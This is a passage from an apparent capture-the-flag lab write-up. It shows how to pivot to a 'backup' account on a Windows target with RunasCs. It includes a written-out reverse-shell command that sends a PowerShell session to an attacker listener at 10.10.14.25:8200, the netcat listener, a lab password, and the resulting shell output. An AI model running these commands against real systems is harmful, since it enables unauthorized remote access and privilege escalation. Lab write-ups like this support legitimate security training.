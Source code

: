 Now, when we got the password for backup user. And we will now use RunasCs.exe to run commands as backup user.

RunasCS releases can be downloaded here. [https://github.com/antonioCoco/RunasCs/releases](https://github.com/antonioCoco/RunasCs/releases). And we will use our existing smbshare to upload the package.

```shell
c:\ProgramData>copy \\10.10.14.25\share\RunasCs.exe RunasCs.exe
        1 file(s) copied.
```

Before running the RunasCs we start a local netcat listener.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
```

Followed by executing RunasCs on the target machine.

```shell
.\RunasCS.exe backup hJsKzOWgvzDCuxfVMwZjhyifJjAQZVscGhYTayfC powershell -r 10.10.14.25:8200
```

If you get `[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect` rerun the the above procedure to get seed, ciphertext and run decrypt again.

```shell
c:\ProgramData>.\RunasCS.exe backup hJsKzOWgvzDCuxfVMwZjhyifJjAQZVscGhYTayfC powershell -r 10.10.14.25:8200
[*] Warning: The logon for user 'backup' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-456ec$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2360 created in background.
```

And we got reverse shell as backup.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
Connection received on 10.10.11.240 49491
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
whoami
napper\backup
PS C:\Windows\system32>
```

We find out that backup is member of the administrator group.
